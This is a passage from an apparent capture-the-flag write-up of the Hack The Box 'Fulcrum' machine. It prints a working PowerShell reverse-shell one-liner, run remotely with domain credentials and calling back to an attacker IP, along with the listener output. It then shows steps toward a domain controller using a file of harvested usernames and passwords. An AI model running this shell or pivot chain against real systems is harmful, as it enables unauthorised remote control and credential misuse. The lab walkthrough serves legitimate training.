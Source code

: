 ```

```

We are able to call backout to the htb vpn ip space so we can use powershell invoke-command to execute commands on the box. We can get a reverse shell copy-pasta'ing ["Nishangs Invoke-PowershellTcpOneLine"](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)
_Invoke-Command on file.fulcrum.local_
```
Invoke-Command -ComputerName file.fulcrum.local -Credential fulcrum.local\btables -Port 5985 -ScriptBlock  { $client = New-Object System.Net.Sockets.TCPClient('10.10.15.74',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

_getting shell_
```
root@dastinia:~# ncat -lnvp 53
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.10.62.
Ncat: Connection from 10.10.10.62:12873.
whoami
fulcrum\btables
PS C:\Users\BTables\Documents>
```




_getting user flag_
```
PS C:\Users\BTables\Desktop> dir


    Directory: C:\Users\BTables\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/4/2017  10:12 PM             34 user.txt


PS C:\Users\BTables\Desktop> type user.txt
...[snip]...
```

### Pivoting to Domain Controller (dc.fulcrum.local)

Exploring the system you discover a myriad  of files of which the  contents of `domain_users.csv` appears to be a list of username, and passwords for various domain users. 


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke